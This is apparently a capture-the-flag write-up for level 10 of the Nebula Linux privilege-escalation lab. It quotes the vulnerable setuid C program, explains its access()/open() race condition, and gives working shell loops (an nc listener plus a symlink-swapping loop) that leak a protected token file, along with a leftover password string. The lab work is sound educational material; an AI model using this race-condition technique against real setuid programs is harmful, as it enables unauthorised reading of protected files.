 ```yaml
---
title: "Writeup: nebula (level 10)"
date: 2020-12-22T14:36:26+08:00
draft: false
---
```


Nebula is a virtual machine that covers a variety of challenges about Linux privilege escalation, scripting language issues, and file system race conditions. It is available at [Exploit Exercises](https://exploit-exercises.lains.space/).

<br>

## Level 10

The description of Level 10 is provided as follows. 

```
The setuid binary at /home/flag10/flag10 binary will upload any file given, 
as long as it meets the requirements of the access() system call.

To do this level, log in as the level10 account with the password level10. 
Files for this level can be found in /home/flag10.
```

<br>

## Solution 1

In this challenge, Nebula left a sensitive file "x" in /home/level10. 

![](https://github.com/chuang76/image/blob/master/10-2.PNG?raw=true)

It contains ASCII text. Though it shows nothing when we type in cat command (since the file may contain too many blank lines), we can use od command to view the contents of x instead. 

![](https://github.com/chuang76/image/blob/master/10-3.PNG?raw=true)

As you can see, it shows 615a2ce1-b2b5-4c76-8eed-8aa5c4015c27. This strange token may be the password. Let's give it a try. 

![](https://github.com/chuang76/image/blob/master/10-4.PNG?raw=true)

Here is the flag. 

![](https://github.com/chuang76/image/blob/master/10-5.PNG?raw=true)

<br>

## Solution 2

Let's go back to the directory /home/flag10. Here is its contents. 

![](https://github.com/chuang76/image/blob/master/10-1.PNG?raw=true)

The source code of the executable flag10 is available. The program is going to check the file permission, create a socket, connect to the port 18211, then read something from the file, and write (send) the data to the socket.

```
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
  char *file;
  char *host;

  if(argc < 3) {
      printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
      exit(1);
  }

  file = argv[1];
  host = argv[2];

  if(access(argv[1], R_OK) == 0) {
      int fd;
      int ffd;
      int rc;
      struct sockaddr_in sin;
      char buffer[4096];

      printf("Connecting to %s:18211 .. ", host); fflush(stdout);

      fd = socket(AF_INET, SOCK_STREAM, 0);

      memset(&sin, 0, sizeof(struct sockaddr_in));
      sin.sin_family = AF_INET;
      sin.sin_addr.s_addr = inet_addr(host);
      sin.sin_port = htons(18211);

      if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
          printf("Unable to connect to host %s\n", host);
          exit(EXIT_FAILURE);
      }

#define HITHERE ".oO Oo.\n"
      if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
          printf("Unable to write banner to host %s\n", host);
          exit(EXIT_FAILURE);
      }
#undef HITHERE

      printf("Connected!\nSending file .. "); fflush(stdout);

      ffd = open(file, O_RDONLY);
      if(ffd == -1) {
          printf("Damn. Unable to open file\n");
          exit(EXIT_FAILURE);
      }

      rc = read(ffd, buffer, sizeof(buffer));
      if(rc == -1) {
          printf("Unable to read from file: %s\n", strerror(errno));
          exit(EXIT_FAILURE);
      }

      write(fd, buffer, rc);

      printf("wrote file!\n");

  } else {
      printf("You don't have access to %s\n", file);
  }
}
```

<br>

## The first attempt

Our goal is to view the contents of the file "token". So I just create a file in /tmp directory which is pointed to /home/flag10/token via the symbolic link. Then open two terminals (you can use Ctrl + Alt + Fn to switch between TTYs), for the one is used to listen the port and receive the message, the other is used to run the executable /home/flag10/flag10 with the argument 127.0.0.1 (host) and /tmp/vul (file). 

However, it's failed. The error message indicates that I don't have access to the file. The reason is: the argument R_OK in the function access() checks *real user ID*, not effective user ID like open() function checks. Therefore, we can not pass the verification access() simply with the symbolic link. 

<br>

## The second attempt

Let's view the source code again. The program is a classical [time-of-check to time-of-use](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use) (TOCTOU), which is a software bug caused by the race condition. Though we don't have the ability to change the internal memory of the program, we can exploit the race condition to trick the Set-UID. That is, after passing the verification, and before opening the file, we make the file points to our target file /home/flag10/token. Since modern processors run billions of instructions per second, the duration (TOCTOU window) is very short, we need to try it repeatedly. To win the race condition, we can design the workflow as follows. 

```
1. TTY1: used to keep listening to the port 18211
2. TTY2: keep running the executable /home/flag10/flag10
3. TTY3: keep creating a symbolic link to a writable file (pass the verfication)
         and creating another symbolic link to /home/flag10/token (our target)
```

Hence, for TTY1, run 

```
$ nc -k -l 18211
```

for TTY2, run

```
$ while true; do /home/flag10/flag10 /tmp/vul 127.0.0.1; done
```

for TTY3, run

```
$ while true; do ln -sf /tmp/test /tmp/vul; ln -sf /home/flag10/token /tmp/vul; done
```

Here is the result of TTY1. As you can see, sometimes it prints out "test" (contents of /tmp/test), while sometimes it prints out the contents of our target file, /home/flag10/token. 

![](https://github.com/chuang76/image/blob/master/10-10.PNG?raw=true)

Here is the flag. 

![](https://github.com/chuang76/image/blob/master/10-11.PNG?raw=true)









